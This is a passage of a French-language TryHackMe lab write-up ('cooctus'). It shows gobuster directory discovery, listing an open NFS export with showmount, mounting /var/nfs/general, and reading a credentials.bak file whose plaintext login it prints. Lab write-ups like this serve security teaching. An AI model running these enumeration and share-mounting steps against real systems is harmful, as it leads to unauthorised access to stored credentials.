 Avec gobuster on trouve 2 répertoires.   

![page](./Task1-02.png)

Les deux lien nous mènes sur une page d'identification, le problème c'est que j'ai pas d'identifiant.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$  showmount -e cooctus.thm
Export list for cooctus.thm:
/var/nfs/general *
```

D'après nmap sur le port 2049, il y avait des dossiers partagés.   
Avec showmount on que le dossier  partager est /var/nfs/general *  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mkdir /tmp/mnt
tim@kali:~/Bureau/tryhackme/write-up$ sudo mount -t nfs cooctus.thm:/var/nfs/general /tmp/mnt
tim@kali:~/Bureau/tryhackme/write-up$ cd /tmp/mnt/
tim@kali:/tmp/mnt$ ls
credentials.bak
tim@kali:/tmp/mnt$ cat credentials.bak 
paradoxial.test
ShibaPretzel79
```

On crée un répertoire on monter le partage.  
On monte le partage.   
Dans le partage on trouve un fichier credentials.bak, on le lit et on trouve des identifiants. 

![page](./Task1-03.png)
